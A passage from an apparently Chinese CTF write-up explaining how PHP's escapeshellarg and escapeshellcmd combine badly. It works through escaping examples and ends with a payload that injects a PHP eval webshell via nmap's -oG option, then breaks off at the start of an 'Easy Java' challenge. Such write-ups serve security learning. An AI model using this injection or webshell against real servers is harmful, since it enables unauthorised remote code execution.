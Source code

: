 本身是安全的的，但是合在一起使用就不安全，以这道题为例，很明显是一个**命令执行**的题，`nmap`可以通过`-oG`参数写入`webshell`，但是由于`escapeshellarg`和`escapeshellcmd`的转义，会导致常规的注入失败，举个例子，如果我们正常注入`<?php eval($_POST['bme']);?> -oG 1.php`，经过这两个函数会变成这样

- `'<?php eval($_POST['\''bme'\'']);?> -oG 1.php'`

这一个首先是将两个`'`进行转义，但是转义之后，前后无法生成字符串，这时候就需要将他们用`'`括起来

- `'\<\?php eval\(\$_POST\['\\''bme'\\''\]\)\;\?\> -oG 1.php'`

而第二个则是将特殊字符进行转义，同时对未配对的单引号进行转义，看起来很乱，但是在`shell`里跑一下就知道了

![202107161](img/20210716/202107161.png)

我们发现有一部分由于第二个函数，导致了部分逃逸`\\`，`bme`参数也消失了，而我们就是要利用`'`在第一遍被转义，第二遍逃逸这种特性，来进行绕过，我们试一试`'<?php eval($_POST['bme']);?> -oG 1.php'`

- `''\''<?php eval($_POST["bme"]);?>  -oG 1.php'\'''`
- `''\\'' \<\?php eval\(\$_POST\["bme"\]\)\;\?\> -oG 1.php '\\'''`

在`shell`中的执行效果是这样的

![202107162](img/20210716/202107162.png)

我们发现，在`shell`中，许多`''`实现了逃逸，由于`\\`反斜线把自己转移了导致了`'`的逃逸

### payload

```
?host=' <?php eval($_POST["bme"]);?> -oG 1.php '
```

## Easy Java

> RoarCTF 2019

### 题目

题目很明显`Java`写的，一进来是一个登录页面
